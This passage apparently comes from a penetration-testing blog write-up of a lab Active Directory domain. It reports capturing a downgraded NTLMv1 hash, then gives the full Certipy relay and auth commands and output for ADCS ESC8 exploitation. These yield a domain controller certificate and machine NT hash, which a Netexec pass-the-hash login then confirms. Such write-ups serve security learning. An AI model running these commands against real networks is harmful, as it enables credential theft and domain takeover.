 Success! I got the downgraded NTLMv1 hash. With the hash in hand, I could now use EvilMog’s [Ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi) tool to transform the obtained hash into a crack.sh compatible format. Unfortunately for me, `crack.sh` cracking services were down for maintenance at the time of writing this blog post, so I was unable to further demonstrate this attack path. But know that we are nearly 2-3 steps away from recovering the credential material for this DC.

### ESC8 Exploitation

To continue with the ADCS exploitation path, I went ahead and attempted the ESC8 privilege escalation method. I used Certipy to execute this attack, but it can also be done with Ntlmrelayx.

After running my `certipy` command, I triggered coercer in the same manner as during testing, and the DC called back to my Kali. The DC’s auth was forwarded to the `BRAAVOS` ADCS server, which spit out a `meereen.pfx`, an authentication certificate for the DC.

*Note: the reason I included the `-forever` argument is because the pesky `ROB.STARK` kept authenticating to me and I had to battle him for authentication to my Certipy.*

```
# certipy relay -target http://10.2.10.23 -template DomainController -forever

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting http://10.2.10.23/certsrv/certfnsh.asp (ESC8)
[*] Listening on 0.0.0.0:445
ESSOS\MEEREEN$
[*] Requesting certificate for 'ESSOS\\MEEREEN$' based on the template 'DomainController'
[*] Got certificate with DNS Host Name 'meereen.essos.local'
[*] Certificate object SID is 'S-1-5-21-1920550979-1564473321-1517388242-1001'
[*] Saved certificate and private key to 'meereen.pfx'
```

I could now use the `certipy` auth command to authenticate with the generated .pfx file and get the DC’s hash.

```
# certipy auth -pfx meereen.pfx -dc-ip 10.2.10.12

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: meereen$@essos.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'meereen.ccache'
[*] Trying to retrieve NT hash for 'meereen$'
[*] Got hash for 'meereen$@essos.local': aad3b435b51404eeaad3b435b51404ee:f9ad1333f42690227ac5c70d9d2ccd4e
```

Next, I confirmed that the hash was working by authenticating using the DC’s machine account via Netexec.

```
# nxc smb 10.2.10.12 -u meereen\$ -H f9ad1333f42690227ac5c70d9d2ccd4e

SMB         10.2.10.12      445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:essos.local) (signing:True) (SMBv1:True)
SMB         10.2.10.12      445    MEEREEN          [+] essos.local\meereen$:f9ad1333f42690227ac5c70d9d2ccd4e
```
